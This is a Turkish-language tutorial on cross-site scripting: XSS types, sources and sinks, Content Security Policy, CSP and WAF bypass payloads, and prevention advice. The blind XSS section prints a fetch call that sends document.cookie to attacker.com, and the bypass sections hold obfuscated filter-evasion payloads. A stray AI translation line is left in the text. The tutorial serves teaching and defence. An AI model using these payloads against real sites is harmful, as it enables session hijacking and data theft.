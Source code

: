# XSS (Cross-Site Scripting)
XSS açıkları, saldırganın kurban kullanıcı gibi davranmasına, kullanıcının yapabileceği tüm işlemleri gerçekleştirmesine ve kullanıcıya ait verilere erişmesine olanak tanır. Eğer kurban kullanıcı uygulama içinde ayrıcalıklı yetkilere sahipse, saldırgan uygulamanın tüm işlevselliği ve verileri üzerinde tam kontrol sağlayabilir.

XSS, güvenlik açığı bulunan bir web uygulamasının kullanıcıya kötü amaçlı JavaScript kodu döndürmesi ile ortaya çıkar. Bu kod kurbanın tarayıcısında çalıştığında, saldırgan kurbanın uygulama ile olan etkileşimini tamamen ele geçirebilir.

## XSS Türleri
Üç ana XSS türü vardır:

* Reflected XSS – Kötü amaçlı script, mevcut HTTP isteğinden gelir.
* Stored XSS – Kötü amaçlı script, veritabanı gibi kalıcı bir depodan gelir.
* DOM-based XSS – Açık, sunucu tarafında değil istemci tarafındaki JavaScript kodunda bulunur.

## Reflected XSS
Reflected XSS, kullanıcının girdiği verinin sunucuya ulaştıktan sonra herhangi bir filtreleme veya sanitizasyon yapılmadan HTTP yanıtına dahil edilmesiyle oluşur.

Bu açık Non-Persistent olarak sınıflandırılır; sayfa kapatıldığında veya yenilendiğinde saldırı etkisiz hale gelir.

Örnek:
```html
https://insecure-website.com/status?message=All+is+well
<p>Status: All is well.</p>
```

Saldırgan URL’yi şu şekilde değiştirebilir:
```html
https://insecure-website.com/status?message=<script>alert('XSS')</script>
```

Kurban bu bağlantıya tıkladığında, script tarayıcıda kurbanın oturumu bağlamında çalışır.

## Stored XSS
Stored XSS (Persistent XSS), saldırganın enjekte ettiği kodun kalıcı olarak depolanması ve her görüntülendiğinde çalışması durumunda oluşur. Bu veri, veritabanına, loglara veya başka kalıcı depolama alanlarına kaydedilebilir.

Stored XSS en tehlikeli XSS türüdür; çünkü sayfayı ziyaret eden her kullanıcı saldırıdan etkilenir. Ayrıca genellikle manuel müdahale olmadan temizlenemez.

Örnek:
```html
<p>Hello, this is my message!</p>
```

Saldırgan şu şekilde veri gönderebilir:
```html
<p><script>alert('XSS')</script></p>
```

Bu içerik veritabanına kaydedilir ve her görüntülendiğinde çalışır.

## DOM-based XSS
DOM-based XSS, tamamen istemci tarafında (client-side) çalışan JavaScript kodunun kullanıcı girdisini filtrelemeden DOM’a yazması ile ortaya çıkar. Bu tür XSS, sunucuya gönderilen veri üzerinden değil, tarayıcıdaki Document Object Model (DOM) manipülasyonu ile tetiklenir.

Örnek:
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

Eğer saldırgan `search` alanının değerini kontrol edebiliyorsa şu payload çalışabilir:

```html
<img src=1 onerror="alert('XSS')">
```

## Blind XSS 
Blind XSS, saldırganın payload’unun doğrudan kullanıcıya görünmeden, genellikle yönetici panelleri veya log sistemleri gibi arka planda çalışan alanlarda tetiklenmesiyle ortaya çıkar. Payload çalıştığında saldırgan, bir call-back mekanizmasıyla (ör. Burp Collaborator) tetiklemeyi gözlemler. Blind XSS için tipik bir payload, tetiklendiğinde saldırganın kontrolündeki bir sunucuya HTTP isteği gönderen basit bir JavaScript olabilir.
Örnek:

```html
<script src="https://attacker.com/collect.js"></script>
```

veya doğrudan bir fetch ile:

```html
<script>
fetch('https://attacker.com/log?cookie=' + document.cookie);
</script>
```

Bu payload, kullanıcıya görünmeden arka planda çalışır ve saldırganın sunucusuna veri gönderir.

### Source & Sink
DOM-based XSS’i anlamak için Source ve Sink kavramlarını bilmek önemlidir:

* Source: Kullanıcı girdisini alan JavaScript nesnesi (örn. URL parametresi, form input’u).
* Sink: Kullanıcı girdisini DOM’a yazan fonksiyon. Eğer filtrasyon yapılmazsa XSS oluşur.

Sık kullanılan Sink fonksiyonları:
```javascript
document.write()
element.innerHTML
element.outerHTML
```

jQuery’de sık kullanılan Sink fonksiyonları:
```javascript
add()
after()
append()
```

Bu fonksiyonlar girdiyi doğrudan DOM’a yazarsa ve giriş doğrulaması yapılmazsa sayfa XSS’e açıktır.

## Content Security Policy
Content Security Policy (CSP), Cross-Site Scripting (XSS), clickjacking gibi belirli istemci tarafı saldırılarını tespit etmek ve sınırlandırmak için ek bir korumadır. Sunucu seviyesinde yapılandırılır. Yöneticiler, bir sayfa yüklendiğinde tarayıcıların uyması gereken kuralları tanımlar. Örneğin, hangi kaynaklardan script, resim veya diğer kaynakların yüklenebileceğini belirleyebilirler.

CSP iki şekilde tanımlanabilir:
- Sunucu yanıtına Content-Security-Policy HTTP header’ı ekleyerek.
- HTML sayfalarında <meta> etiketi kullanarak.

### Content Security Policy’nin Ana Direktifleri
Bir CSP, directive adı verilen kurallardan oluşur. Her direktif, belirli kaynakların yüklenmesi ve çalıştırılması için kısıtlamalar tanımlar.

#### Directive türleri:
- Fetch directives → Tarayıcıya verilerin nasıl yükleneceğini söyler.
- Diğer direktifler → Tarama, belge ve raporlama gibi ek güvenlik kontrolleri içerir.

#### Fetch directives
- default-src → Başka bir direktif tanımlanmazsa varsayılan kaynak.
- script-src → JavaScript ve WebAssembly için geçerli kaynaklar.
- script-src-elem → <script> tag’leri için geçerli kaynaklar (yoksa script-src kullanılır).
- frame-src → <frame> ve <iframe> için geçerli kaynaklar.
- img-src → Görseller için geçerli kaynaklar.
- style-src → CSS dosyaları için geçerli kaynaklar.
- font-src → Fontlar için geçerli kaynaklar.

#### Diğer önemli direktifler
- sandbox → İçeriği izole eden sandbox modunu aktif eder (<iframe> gibi).
- require-trusted-types-for → DOM tabanlı XSS saldırılarını sınırlamak için “trusted types” kullanımını zorunlu kılar.
- trusted-types → Sadece izin verilen “Trusted Types” tanımlarını çalıştırır.
- upgrade-insecure-requests → HTTP isteklerini otomatik olarak HTTPS’e çevirir.
- frame-ancestors → <frame>, <iframe>, <object>, <embed> ve <applet> için izin verilen kaynakları sınırlar.
- form-action → Formların gönderilebileceği URL’leri sınırlar.
- base-uri → <base> etiketi için geçerli kaynakları sınırlar.

#### Fetch Directives için Olası Değerler
- 'none' → Kaynağı tamamen engeller.
- 'self' → Yalnızca aynı origin’den yükleme yapılmasına izin verir.
- [host-source] → Özel bir domain veya IP tanımlar.
- [scheme-source] → Belirli bir protokole izin verir (https:, data:, ws:, vb.).
- → Herhangi bir alt domain, host veya port’a izin verir.
- 'nonce-[değer]' → Sunucu tarafından her yanıt için üretilen rastgele bir nonce değeri.
- 'unsafe-eval' → eval() gibi metin tabanlı JavaScript çalıştırılmasına izin verir.
- 'unsafe-inline' → Inline script, event attribute (onclick) ve javascript: URL’lerine izin verir.
- Yanlış yapılandırılmış değerler, özellikle XSS saldırılarına kapı açabilir.

### Content Security Policy Örneği
Sunucu, tarayıcıya CSP’yi HTTP yanıtında iletebilir:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.example.com; object-src 'none'; img-src 'self' data: *.vaadata.com;
```

Bu konfigürasyon:
- default-src 'self' → Tanımsız tüm kaynak türleri sadece aynı origin’den yüklenir.
- script-src 'self' https://*.example.com → Sadece example.com alt domainlerinden script yüklenir.
- object-src 'none' → <object> ve <embed> tamamen yasak.
- img-src 'self' data: .example.com → Görseller sadece self, data: şeması ve example.com alt domainlerinden yüklenebilir.

### CSP Bypass Teknikleri
#### unsafe-inline kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';
```

Bu durumda inline script’ler çalışabilir:
```js
<script>alert(1);</script>
```

#### unsafe-eval kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:;
```

eval() veya Function() çağrıları yapılabilir. Ayrıca data: şemasıyla Base64 kodlu script çalıştırılabilir:
```js
<script src="data:;base64,YWxlcnQoMSk="></script>
```

#### script-src'de wildcard (*) kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *;
```

Saldırgan kendi sunucusundan script yükleyebilir:
```js
<script src="https://evil.vaadata.at"></script>
```

### object-src ve default-src eksikliği
```http
Content-Security-Policy: script-src 'self'; img-src 'self';
```

<object> etiketi ile Base64 kodlu zararlı script yüklenebilir:
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### JSONP endpoint istismarı
```http
Content-Security-Policy: default-src 'none'; script-src https://hello.vaadata.com/test.js https://accounts.google.com/o/oauth2/revoke;
```

İzin verilen domainlerde JSONP endpoint varsa callback parametresi ile XSS yapılabilir:
```url
https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
```
## WAF Bypass
Tabii, verdiğin içeriği teknik terimlerini koruyarak Türkçeye çevirebilirim:

---

## WAF Bypass Teknikleri

### String Kodlama (String Encoding)

#### Base64 Kodlama:
```javascript
btoa("alert(1)");  // Base64'e kodlar
atob("YWxlcnQoMSk=");  // Base64'ten tekrar "alert(1)" olarak çözer
```

#### Octal ve Heksadesimal Kodlama:
```javascript
\\141\\154\\145\\162\\164(1);  // "alert(1)" için sekizlik
\\x61\\x6c\\x65\\x72\\x74(1);  // "alert(1)" için hex
```

#### Unicode Escaping:
```javascript
al\\u0065rt(1);  // Unicode kullanarak "alert(1)"
```

#### Decimal Kodlama:
```javascript
String.fromCharCode(97, 108, 101, 114, 116)(1);  // "alert(1)" çıktısı
```

#### String Birleştirme:
```javascript
var a = "al";
var b = "ert(1)";
a.concat(b);  // "alert(1)" çıktısı
```

### Parantez Engellerini Bypass Etme
Bazı WAF’ler parantez veya alert() gibi belirli fonksiyonları engeller. Alternatifler:

#### Backtick Kullanımı:
```javascript
alert`1`;  // Parantez kullanmadan alert
```

#### Event Handler Kullanımı:
```html
<img src="nonexistent.jpg" onerror="alert(1); throw 'Error';">
```

#### Throw Syntax Kullanımı:
```javascript
throw onerror=alert, "aaaa", "bbbb";
```

### Fonksiyon Kara Listeleri ve Alternatifler
Eval() engellenmişse, aynı etkiyi sağlayacak alternatifler kullanılabilir:

```javascript
// Engellenmiş: eval("alert(1)");
// Alternatifler:
setTimeout("\\x61\\u{65}\\162t(2)");
setInterval("\\x61\\u{65}\\162t(2)");
Function("alert(2)")``;
Function("alert(2)")();
(Function("alert(2)"))();
Function("alert(1)")();  // eval kullanmadan
```

#### Unicode ile Fonksiyon Çağrısı:
```javascript
\\x61\\u{65}\\162t(2);  // alert(2) ile aynı
```

### Dot Notation ve window Engellerini Bypass Etme
Dot notation (ör. `document.cookie`) engellenmişse köşeli parantez kullan:

```javascript
document["cookie"];  // document.cookie yerine
```

Window kullanımını engelleyen WAF’ler için alternatifler:
```javascript
top;    // window.alert yerine
self;   // self veya top kullan
frames; // frames veya parent
parent;
this;
```

#### Array Kullanımı:
```javascript
[20].find(alert);   
[document.cookie].find(prompt);
```

#### Gelişmiş Array Metodları:
```javascript
[document.cookie].forEach(prompt);  
[document.cookie].filter(alert);    
[document.cookie].map(alert);
```

#### Global Object Bypass:
```javascript
globalThis;  
globalThis ;
```

### Tag Kapatma
HTML’de çalıştırılamayan tag’leri kapatıp payload ekleme:

```html
<style>/* CSS, script çalışmaz */</style><script>alert(1)</script>
<title>Page Title</title><script>alert(1)</script>
<noembed>Fallback content</noembed><script>alert(1)</script>
<template>This is template content</template><script>alert(1)</script>
<noscript>Content when JS disabled</noscript><script>alert(1)</script>
<textarea>User entered text</textarea><script>alert(1)</script>
<!-- HTML Comment --> <script>alert(1)</script>
```

### iframe ile Payload

```html
<iframe src="data:text/html, <svg onload=alert(2)>">
<iframe src="data:text/html;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+"></iframe> <!-- alert(2) -->
```

## XSS Saldırılarını Önlemek
CSP, XSS gibi zafiyetlerin kötüye kullanılmasını sınırlayan veya önleyen ek bir koruma katmanı sağlar. Bu saldırılara karşı ilk savunma hattı hâlâ input validation ve output encoding yöntemleridir. Genel olarak, CSP aşağıdaki noktalar dikkate alınmalıdır:

* Restriktif bir default-src direktifi tanımlayın.
* Sıkı bir object-src direktifi uygulayın (ideal olarak none).
* unsafe-eval ve unsafe-inline değerlerinden kaçının. Genel kural olarak, ‘unsafe’ içeren direktifleri yasaklayın; yalnızca etkilerini tam olarak anladığınızda izin verin.
* Harici sunuculardan script yüklemeye izin vermeyin.
* Wildcard (*) kullanımını en aza indirin.
* Güvenliği güçlendirmek için nonce kullanın.
* CSP’nizin sağlamlığını özel araçlar kullanarak test edin